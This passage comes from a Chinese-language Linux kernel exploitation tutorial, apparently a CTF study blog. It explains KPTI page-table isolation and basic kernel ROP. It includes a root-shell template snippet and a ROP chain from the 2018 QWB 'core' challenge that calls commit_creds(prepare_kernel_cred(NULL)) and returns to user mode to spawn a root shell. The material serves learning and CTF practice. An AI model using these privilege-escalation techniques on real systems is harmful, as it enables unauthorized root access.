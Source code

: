 ```json
        "    }",
        "",
        "    success(\"Successful to get the root. Execve root shell now...\");",
        "    system(\"/bin/sh\");",
        "}",
        "",
        "int main(){",
        "",
        "",
        "",
        "}"
    ],
    "description": "kernel snippets"
}
```

## 0x04 KPTI机制

`KPTI`机制将内核页表和用户空间页表分开来实现隔离。这里摘录自`arttnba3`师傅的博客：

众所周知 `Linux` 采用**四级页表**结构（`PGD->PUD->PMD->PTE`），而 `CR3` 控制寄存器用以存储当前的 `PGD` 的地址，因此在开启 `KPTI` 的情况下用户态与内核态之间的切换便涉及到 `CR3` 的切换，为了提高切换的速度，内核将内核空间的 `PGD` 与用户空间的 `PGD` 两张页全局目录表放在一段连续的内存中（两张表，一张一页`4k`，总计`8k`，内核空间的在低地址，用户空间的在高地址），这样**只需要将 `CR3` 的第 `13` 位取反便能完成页表切换的操作**

![image.png](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/Rm8Ti9MpVUZ7fPK.png)

需要进行说明的是，**在这两张页表上都有着对用户内存空间的完整映射，但在用户页表中只映射了少量的内核代码（例如系统调用入口点、中断处理等），而只有在内核页表中才有着对内核内存空间的完整映射**，如下图所示，左侧是未开启 `KPTI` 后的页表布局，右侧是开启了 `KPTI` 后的页表布局

**`KPTI` 同时还令内核页表中用户地址空间部分对应的页顶级表项不再拥有执行权限（`NX`），这使得 `ret2usr` 彻底成为过去式**。

![image.png](https://s2.loli.net/2022/03/11/q74X6lbTnrNGhC1.png)

在 `64` 位下用户空间与内核空间都占 `128TB`，所以他们占用的页全局表项（`PGD`）的大小应当是相同的，图上没有体现出来，**必定在某个节点上同时存在着完整的对用户空间与内核空间的映射**，这个节点就是当 `CPU` 运行在内核态时

**以上均摘录自`arttnba3`师傅的博客**，总结得非常详细。笔者本人初学时一度有疑问，既然存在`KPTI`机制的绕过，为什么还说`ret2usr`成为过去式？因为`ret2usr`这样的一个做法更多的是先切换到用户态，再在用户态上来进行提权；而开启`KPTI`后，无论如何也要先进行`ROP`来进行页表的切换，因此绕过`kpti`返回到用户态后，更多地是直接在用户态起一个`shell`叭。

## 0x05 kernel ROP - Basic

如果不是对`kernel`存在敬畏，对于`kernel ROP`应该没有什么学习成本，因为和用户态下的`ROP`无本质区别。用户态下我们需要通过`system("/bin/sh")`来获得一个`shell`，而内核态下我们需要通过`commit_creds(prepare_kernel_cred(NULL))`来提权为`root`（是的，高版本还需要`commit_creds(prepare_kernel_cred(&init_task))`或`commit_creds(&init_cred)`））。

例如，这是笔者在做`2018qwb_core`中的`ROP chain`：

```c
rop_chain[i++] = POP_RDI_RET + offset;
rop_chain[i++] = 0;
rop_chain[i++] = prepare_kernel_cred;
rop_chain[i++] = POP_RCX_RET + offset;
rop_chain[i++] = commit_creds;
rop_chain[i++] = MOV_RDI_RAX_POP_RBP_JMP_RCX + offset;
rop_chain[i++] = 0; // pop_rbp
rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
rop_chain[i++] = 0; // pop_fq
rop_chain[i++] = IRETQ_RET + offset;
rop_chain[i++] = (size_t)get_root_shell;
rop_chain[i++] = user_cs;
rop_chain[i++] = user_rflags;
rop_chain[i++] = user_sp;
rop_chain[i++] = user_ss;
```
